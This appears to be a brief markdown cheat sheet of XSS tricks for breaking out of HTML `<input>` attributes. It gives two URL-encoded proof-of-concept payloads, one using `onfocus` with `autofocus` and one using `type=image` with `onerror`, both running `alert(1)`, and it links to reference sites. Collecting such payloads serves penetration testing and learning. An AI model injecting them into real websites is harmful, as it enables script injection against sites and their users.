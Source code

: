 # XSS

## Legend

Symbol/Abbr. | Description
-------------|------------
✔ | Finished
❌ | Rejected / Not done
! | Important
X -> Y | X has resulted in Y
X &-> Y |X depends on Y

## XSS in `<input ../>` attribute

Use `onfocus` event with the `autofocus` HTML5 attribute:

    [path]?q=aaaaa%20onfocus%3Dalert%281%29%20autofocus%20     # aaaaa onfocus=alert(1) autofocus

---

Change the `<input .. />` type to `image` with adding `type=image` - [Input image type](http://html.com/input-type-image/):

    [path]?q=x%20src%3Dx%20onerror%3Dalert%281%29%20type%3Dimage    # x src=x onerror=alert(1) type=image


## References

URL | Description
----|------------
[HTML Purifier](http://htmlpurifier.org/live/smoketests/xssAttacks.php) | Very good reference for XSS tricks
[XSSChallengeWiki](https://github.com/cure53/XSSChallengeWiki/wiki/Older-Challenges-and-Write-Ups) | Tough challenges and a big source of XSS wisdom